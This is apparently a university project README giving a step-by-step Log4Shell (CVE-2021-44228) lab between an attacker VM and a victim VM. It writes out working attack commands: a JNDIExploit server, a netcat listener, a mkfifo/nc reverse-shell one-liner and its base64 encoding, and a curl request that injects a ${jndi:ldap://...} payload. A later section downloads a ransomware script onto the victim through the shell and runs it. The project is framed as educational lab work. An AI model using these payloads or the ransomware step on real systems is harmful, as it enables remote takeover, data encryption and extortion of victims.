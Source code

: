 # UNIVR - Fondamenti di Sicurezza e Privacy - Project 2022
<img src="https://img.shields.io/badge/%20-Shell-green?style=flat-square"> <img src="https://img.shields.io/badge/%20-Java-brown?style=flat-square">

### Warning

#### :warning: *This repository is for educational purpose only so do not use it on machines that are not yours*

#### :warning: *Do not run ransomware.sh except in your dedicated test virtual machine. Any file with the chosen extension will be encrypted, so be careful as you may lose your files*

<br>

---

<br>

To simulate **CVE-2021-44228**[<sup>1</sup>](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), Log4j vulnerability also known as **Log4Shell**, you can follow this steps.

### General setup

 - Download and install two linux based VM.
 I chosed Kali Linux Virtual Box image[<sup>2</sup>](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)
 - Create a Network with NAT

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VBox_NAT.png">
 
 - Set the Network to the new one for both VMs

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VM_Network.png">

 - Run both VMs one after the other and run this command:<br>
 `sudo apt-get update -y && sudo apt-get upgrade -y`<br>
 - Download\* the Java SE Development Kit 8u181 (jdk1.8.0_181) from Oracle website [<sup>3</sup>](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz) and install it in the *victim* VM<br>
 *you need an Oracle account (it's free)

### Victim VM setup

- In the victim VM download the [Log4ShellVictim.jar](https://github.com/Fantantonio/Log4ShellVictim/blob/master/Log4ShellVictim.jar) and run it with the command:<br>
`sudo java- jar /to/your/path/Log4ShellVictim.jar`.<br>
The default port is 8080
- Use `ifcongig` command to know your victim VM's IP, in my case is `192.168.0.5`

### Attacker VM setup

- Download the [JNDIExploit.v1.2.zip](https://github.com/black9/Log4shell_JNDIExploit/blob/main/JNDIExploit.v1.2.zip) in the *attacker* VM and unzip it with the command:<br>
`unzipJNDIExploit.v1.2.zip`
- Run it with the following command:<br>
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.0.4 -p 8888`<br>
where `192.168.0.4` is the attacker VM's IP and `8888` is the HTTP listener port.<br>
Consider that the LDAP server will listen to the `1389` port by default
- Run `nc -nvlp 1234` in the attacker VM to listen to the `1234` port with Netcat
- Get a reverse shell command like this one:<br>
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f`\*<br>
 Note that `1234` is the port we set Netcat to listen to earlier<br>
 \* you can use the [Revshell](https://www.revshells.com) website to build your own command
 - Run:<br>
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f" | base64`<br>
to encode it in base64.<br>
Of course use your command replacing mine.
 The output should look something like this:<br>
`cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=`
 - Run the curl from the attacher VM like so:<br>
`curl 192.168.0.5:8080 -H 'X-Api-Version:${jndi:ldap://192.168.0.4:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=}’`<br>
Replace `192.168.0.5` with your victim VM's IP, `192.168.0.4` with your attacker VM's IP and `cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=` with your remote shell command base64 encoded.

Now you should see the vulnerability letting you as attacker run the command you injected in the request header and the remote shell ready where you set Netcat listen.<br><br>
<img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/Victim_VM.png"> <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/Attacker_VM.png">

### A step further

- Download ransomware.sh file in `\var\www\html` folder of the attacker machine.<br>
Remember to edit the script adding your bot token, your telegram account id, the file extensions you want to encrypt and the string you want to write in the README.txt file will be generated for the victim
- Start apache in the attacker machine running:<br>
`service apache2 start`
- Use the remote shell to download the ransomware file in the victim machine with the command:<br>
`wget 192.168.0.4/ransomware.sh`<br>
where `192.168.0.4` is the attacker VM's IP
- One more time use the remote shell to run it:<br>
`sh ransomware.sh`<br>
and copy down the decryption key you'll receive in console as output if you want to be able to decrypt everything using the `decrypter.sh` file

### Footnotes
[\[1\] https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)<br>
[\[2\] https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)<br>
[\[3\] https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz)<br>
